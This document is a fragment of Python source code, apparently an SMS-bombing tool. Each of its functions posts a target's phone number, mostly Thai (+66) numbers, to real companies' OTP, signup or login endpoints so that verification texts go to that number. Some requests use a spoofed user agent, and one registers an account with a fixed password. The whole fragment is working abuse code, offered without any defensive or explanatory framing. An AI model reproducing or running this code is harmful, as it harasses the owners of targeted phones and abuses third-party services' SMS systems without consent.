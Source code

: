 

def ab37(phone):

    post("https://api.baccaratth.com/api/v1/sendotp", data = {'phone_number': f"{phone}"})



def ab38(phone):

    post(f"http://m.thaiuang.com/uc/authcode/sms/get/reg/{phone}")    



def sk1(phone):

    post("https://api.myfave.com/api/fave/v3/auth",headers={"client_id": "dd7a668f74f1479aad9a653412248b62", "User-Agent": useragent},json={"phone": f"66{phone}"})





def sk2(phone):

    post("https://u.icq.net/api/v65/rapi/auth/sendCode", headers={"User-Agent": useragent}, json={"reqId":"39816-1633012470","params":{"phone": f"+66{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})



def sk3(phone):

    post("https://api2.1112.com/api/v1/otp/create", headers={"User-Agent": useragent}, data={'phonenumber': phone,'language': "th"})





def sk4(phone):

    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", headers={"User-Agent": useragent}, data={"phone": phone,"password":"123456789Az"})





def sk5(phone):

    post("https://api.1112delivery.com/api/v1/otp/create", headers={"User-Agent": useragent}, data={'phonenumber': phone,'language': "th"})





def sk6(phone):

    post("https://gccircularlivingshop.com/sms/sendOtp", headers={"User-Agent": useragent}, json={"grant_type":"otp","username": f"+66{phone[1:]}","password":"","client":"ecommerce"})





def sk7(phone):

    post("https://shop.foodland.co.th/login/generation", headers={"User-Agent": useragent}, data={"phone": phone})
